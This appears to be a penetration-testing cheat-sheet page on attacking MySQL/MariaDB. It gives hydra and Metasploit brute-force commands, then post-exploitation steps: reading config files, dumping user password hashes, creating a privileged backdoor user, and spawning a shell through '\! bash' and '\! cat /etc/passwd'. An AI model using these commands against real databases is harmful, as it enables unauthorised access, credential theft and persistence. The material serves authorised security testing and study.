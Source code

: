 ## Brute Force

- [hydra](../Tools/hydra.md#MySQL%20Brute-Force)
- [msfconsole](../Tools/msfconsole.md)

```bash
hydra -L usernames.txt -P pass.txt <IP> mysql
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false
```

## [SQL Injection](../Web%20&%20Network%20Hacking/SQL%20Injection.md)

---

# Post Exploitation

## Mysql User

It will be very interesting if mysql is running as **root**:

```bash
# MySQL
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"

# Mariadb
cat /etc/mysql/mariadb.cnf | grep -v "#" | grep "user"
cat /etc/mysql/* | grep -v '#' | grep user
cat /etc/mysql/mariadb.conf.d/* | grep -v '#' | grep user
```

## Privilege escalation

How to (**MySQL**):

- Current Level of access
    - mysql>`select user();`
    - mysql>`select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';`
- Access passwords
    - mysql> `use mysql`
    - mysql> `select user,password from user;`
- Create a new user and grant him privileges
    - mysql>`create user test identified by 'test';`
    - mysql> `grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;`
- Break into a shell
    - mysql> `\! cat /etc/passwd`
    - mysql> `\! bash`

For **Mariadb** follow the note above in a similar way
